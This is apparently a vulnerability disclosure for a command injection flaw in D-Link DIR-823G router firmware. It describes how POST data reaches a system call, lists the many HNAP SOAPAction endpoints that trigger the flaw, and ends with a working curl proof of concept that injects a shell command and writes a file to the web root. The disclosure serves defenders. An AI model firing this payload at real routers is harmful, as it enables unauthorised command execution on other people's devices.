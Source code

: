 # DIR823G_V1.0.2B05_20181207.bin Command execution vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

The parameter a7 is the post request data, and a7 is spliced ​​into v11 as log data, and then v11 is executed as a system command.

![](img/2.jpg#center)

This vulnerability can be triggered when the SOAPAction is any of the following urls.
    http://purenetworks.com/HNAP1/SetMultipleActions
    http://purenetworks.com/HNAP1/CheckPasswdSettings
    http://purenetworks.com/HNAP1/FirmwareDownloadCancel
    http://purenetworks.com/HNAP1/GetAccessCtlList
    http://purenetworks.com/HNAP1/GetAccessCtlSwitch
    http://purenetworks.com/HNAP1/GetAdvNetworkSettings
    http://purenetworks.com/HNAP1/GetAPClientSettings
    http://purenetworks.com/HNAP1/GetAutoRebootSettings
    http://purenetworks.com/HNAP1/GetAutoUpgradeFirmware
    http://purenetworks.com/HNAP1/GetCAPTCHAsetting
    http://purenetworks.com/HNAP1/GetClientInfo
    http://purenetworks.com/HNAP1/GetCurrentInternetStatus
    http://purenetworks.com/HNAP1/GetDDNSSettings
    http://purenetworks.com/HNAP1/GetDeviceDomainName
    http://purenetworks.com/HNAP1/GetDeviceSettings
    http://purenetworks.com/HNAP1/GetDHCPClientInfo
    http://purenetworks.com/HNAP1/Login
    http://purenetworks.com/HNAP1/GetDMZSettings
    http://purenetworks.com/HNAP1/GetFactoryDefault
    http://purenetworks.com/HNAP1/GetFirewallSettings
    http://purenetworks.com/HNAP1/GetFirmwareStatus
    http://purenetworks.com/HNAP1/GetFirmwareValidation
    http://purenetworks.com/HNAP1/GetGuestNetworkSettings
    http://purenetworks.com/HNAP1/GetGuestWLanSettings
    http://purenetworks.com/HNAP1/GetGuestZoneRouterSettings
    http://purenetworks.com/HNAP1/GetInternetConnUpTime
    http://purenetworks.com/HNAP1/GetIPv4FirewallSettings
    http://purenetworks.com/HNAP1/GetLanWanConflictInfo
    http://purenetworks.com/HNAP1/GetLocalMacAddress
    http://purenetworks.com/HNAP1/GetMACFilters2
    http://purenetworks.com/HNAP1/GetMyDLinkSettings
    http://purenetworks.com/HNAP1/GetNetworkSettings
    http://purenetworks.com/HNAP1/GetNetworkTomographyResult
    http://purenetworks.com/HNAP1/GetNetworkTomographySettings
    http://purenetworks.com/HNAP1/GetNTPServerSettings
    http://purenetworks.com/HNAP1/GetOperationMode
    http://purenetworks.com/HNAP1/GetParentsControlInfo
    http://purenetworks.com/HNAP1/GetPPPoEServerStatus
    http://purenetworks.com/HNAP1/GetQoSManagementType
    http://purenetworks.com/HNAP1/GetQoSSettings
    http://purenetworks.com/HNAP1/GetRouterInformationSettings
    http://purenetworks.com/HNAP1/GetRouterLanSettings
    http://purenetworks.com/HNAP1/GetScheduleSettings
    http://purenetworks.com/HNAP1/GetSmartconnectSettings
    http://purenetworks.com/HNAP1/GetStaticClientInfo
    http://purenetworks.com/HNAP1/GetStaticRouteSettings
    http://purenetworks.com/HNAP1/GetSystemUpTime
    http://purenetworks.com/HNAP1/GetUplinkInterface
    http://purenetworks.com/HNAP1/GetUpnpSettings
    http://purenetworks.com/HNAP1/GetVirtualServerSettings
    http://purenetworks.com/HNAP1/GetWanConnectionType
    http://purenetworks.com/HNAP1/GetWanCurrentStatus
    http://purenetworks.com/HNAP1/GetWanplugInfo
    http://purenetworks.com/HNAP1/GetWanSettings
    http://purenetworks.com/HNAP1/GetWanSpeedTest
    http://purenetworks.com/HNAP1/GetWanStatus
    http://purenetworks.com/HNAP1/GetWifiDownSettings
    http://purenetworks.com/HNAP1/GetWLanRadioSecurity
    http://purenetworks.com/HNAP1/GetWLanRadioSettings
    http://purenetworks.com/HNAP1/GetWPSSettings
    http://purenetworks.com/HNAP1/Login
    http://purenetworks.com/HNAP1/PollingFirmwareDownload
    http://purenetworks.com/HNAP1/RunReboot
    http://purenetworks.com/HNAP1/SetAccessCtlList
    http://purenetworks.com/HNAP1/SetAccessCtlSwitch
    http://purenetworks.com/HNAP1/SetAdvNetworkSettings
    http://purenetworks.com/HNAP1/SetAPClientSettings
    http://purenetworks.com/HNAP1/SetAutoRebootSettings
    http://purenetworks.com/HNAP1/SetAutoUpgradeFirmware
    http://purenetworks.com/HNAP1/SetClientInfo
    http://purenetworks.com/HNAP1/SetDDNSSettings
    http://purenetworks.com/HNAP1/SetDeviceSettings
    http://purenetworks.com/HNAP1/SetDMZSettings
    http://purenetworks.com/HNAP1/SetFactoryDefault
    http://purenetworks.com/HNAP1/SetFirewallSettings
    http://purenetworks.com/HNAP1/SetGuestWLanSettings
    http://purenetworks.com/HNAP1/SetIgnoreWizardConfig
    http://purenetworks.com/HNAP1/SetIPv4FirewallSettings
    http://purenetworks.com/HNAP1/SetLanWanConflictInfo
    http://purenetworks.com/HNAP1/SetNetworkSettings
    http://purenetworks.com/HNAP1/SetNetworkTomographySettings
    http://purenetworks.com/HNAP1/SetNTPServerSettings
    http://purenetworks.com/HNAP1/SetParentsControlInfo
    http://purenetworks.com/HNAP1/SetPasswdSettings
    http://purenetworks.com/HNAP1/SetPPPoEServerSettings
    http://purenetworks.com/HNAP1/SetQoSManagementType
    http://purenetworks.com/HNAP1/SetQoSSettings
    http://purenetworks.com/HNAP1/SetRouterLanSettings
    http://purenetworks.com/HNAP1/SetSmartconnectSettings
    http://purenetworks.com/HNAP1/SetStaticClientInfo
    http://purenetworks.com/HNAP1/SetStaticRouteSettings
    http://purenetworks.com/HNAP1/SetTriggerADIC
    http://purenetworks.com/HNAP1/SetUpnpSettings
    http://purenetworks.com/HNAP1/SetVirtualServerSettings
    http://purenetworks.com/HNAP1/SetWanSettings
    http://purenetworks.com/HNAP1/SetWanSpeedTest
    http://purenetworks.com/HNAP1/SetWifiDownSettings
    http://purenetworks.com/HNAP1/SetWLanRadioSecurity
    http://purenetworks.com/HNAP1/SetWLanRadioSettings
    http://purenetworks.com/HNAP1/SetWPSSettings
    http://purenetworks.com/HNAP1/StartFirmwareDownload
    http://purenetworks.com/HNAP1/UpdateClientInfo

## Vulnerability verify

![](img/3.jpg#center)

![](img/4.jpg#center)

## POC

```
a='`echo hack>/web_mtn/hack.txt`' ; curl http://192.168.0.1/HNAP1 -H 'SOAPAction: "http://purenetworks.com/HNAP1/SetPasswdSettings"' -d "'$a'" -s >/dev/null ; curl http://192.168.0.1/hack.txt -s
```

